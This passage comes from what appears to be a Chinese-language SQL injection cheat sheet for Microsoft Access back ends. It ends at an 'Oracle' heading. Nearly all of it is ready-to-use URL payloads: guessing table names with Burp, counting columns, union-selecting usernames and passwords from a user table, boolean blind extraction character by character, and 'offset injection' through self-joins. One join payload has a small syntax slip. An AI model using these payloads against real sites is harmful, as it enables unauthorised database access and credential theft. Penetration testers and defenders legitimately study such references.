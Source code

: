 ```access
# 猜表名, 把 from后面 * 加进变量, 使用 burp 跑
?id=1 and exists(select count(*) from *)
# 判断字段数和显示位
?id=1 order by 5
?id=1 union select 1,2,3,4,5 from user
# 查数据
?id=1 union select 1,username,password,4,5,6,7,8,9,10,11 from user
# 查表和字段内容,数据类型要保持一致,所以ID无法查询,where后 top不能从0开始
?id=1 union select top 1 1,username,password,4,5,6,7,8,9,10,11 from user where username not in (select top 1 username from user)
```

### **Access_布尔盲注**

```
# 判断注入
?id=1 and 1=1 或 and 1=0
# 查看第 1 行,第 1 个字母
?id=1 and (select top 1 asc(mid(username,1,1)) from user)>97
# 查看第 2 行,第 1 个字母
?id=1 and (select top 1 asc(mid(username,1,1)) from user where id not in (select top 1 id from user))>97
```

### **Access_偏移注入**

```
/**借用数据库的自连接查询让数据库内部发生乱序，从而偏移出所需要的字段在我们的页面上显示。
成功与否看技巧与运气，不能保证100%成功，无需管理员账号密码字段，直接爆账号密码，很大程度上解决猜不到字段的问题。
偏移注入的利用条件：

已知管理表名
已知任意字段（一个或多个会增加机率，最常见的就是id）
成功率的因素

管理表的字段数越少越好（最好是三个:id 账号字段 密码字段）
当前注入点的脚本内查询的表内的字段数越多越好（最好有几十个，这样基本成功率是100%）
已知的字段数越多越好（id一般存在**/
#第一步:使用之前的方法得到显示点为2,3，字段个数为7，但是我们并不知道列名
?id=1 union select 1,2,3,4,5,6,7 from user
#第二步:用*依次向前替换数字字段，直到页面显示正常。例如在5替换为*后页面返回正常
?id=1 union select 1,2,3,4,* from user
#说明星号替换了3个字段(也就是表中有三个字段),后续要使用inner jion自表连接查询，因此计算字
段数乘以2是否小于当前列(3*2<7)
#第三步:公式成立的话，用inner jion自连接查询
?id=1 union select 1,* from (user as a inner join user as b on a.id=b.id)
#如果是更多位，可再接inner join
?id=1 union select 1,* from ((user as a inner join user as b on a.id=b.id) inner join user as c a.id=c.id)
```

## Oracle

